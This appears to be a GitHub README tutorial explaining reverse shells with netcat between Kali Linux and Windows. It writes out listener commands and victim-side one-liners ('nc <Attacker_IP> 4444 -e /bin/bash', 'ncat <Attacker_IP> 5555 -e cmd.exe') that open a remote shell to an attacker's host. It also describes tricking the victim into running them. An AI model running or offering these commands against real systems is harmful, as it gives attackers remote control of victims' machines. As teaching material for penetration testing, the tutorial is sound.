 # Reverse-shell-access-using-netcat

I was gain a Reverse shell access uisng netcat in kali linux from windows ...vice versa

# What is Reverse shell access

A reverse shell is a type of connection where a target machine (the victim) initiates a connection back to an attacker’s machine. This allows the attacker to control the target machine remotely by executing commands on it.

# How Reverse Shell Works:

Attacker's Machine: Listens for incoming connections.

Victim's Machine: When compromised, it connects back to the attacker's machine, giving the attacker remote access.

# Two Simple Examples:

# Example 1: Attacker on Windows, Victim on Linux
**Attacker (Windows)**: Sets up a listener using netcat.

**Command**: ncat -lvp 4444

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/1.png)

**This means**: "Listen on port 4444 and wait for a connection."

**Victim** (Linux): The attacker tricks the victim into running a command.

**Command**: nc <**Attacker_IP**> 4444 -e /bin/bash

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/2.png)

**This means**: "Connect to the attacker's IP on port 4444 and give them access to my shell."

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/3.png)

**Result**: The attacker now controls the Linux machine from the Windows machine.

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/26834eb6bf472a46292b847cb73028b8c8d6a0c7/images/4.png)

# Example 2: Attacker on Linux, Victim on Windows
**Attacker** (Linux): Listens for incoming connections.

**Command**: nc -lvp 5555

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/a8b13cfa76e8c0df3e40224d2b9f102ba15a2039/images/5.png)

**Victim** (Windows): The attacker gets the victim to run this command.

**Command**: ncat <**Attacker_IP**> 5555 -e cmd.exe

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/a8b13cfa76e8c0df3e40224d2b9f102ba15a2039/images/6.png)

**This means**: "Connect to the attacker’s IP on port 5555 and give them access to my Windows command prompt."

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/a8b13cfa76e8c0df3e40224d2b9f102ba15a2039/images/7.png)

**Result**: The attacker now has control over the Windows machine.

![Image Alt](https://github.com/goutham10248/Reverse-shell-access-using-netcat/blob/a8b13cfa76e8c0df3e40224d2b9f102ba15a2039/images/8.png)

# In Summary:

**Reverse Shell**: The victim's machine connects back to the attacker's machine.

**Purpose**: Allows remote control over the victim's machine.

**Usage**: Often used in penetration testing or by hackers.
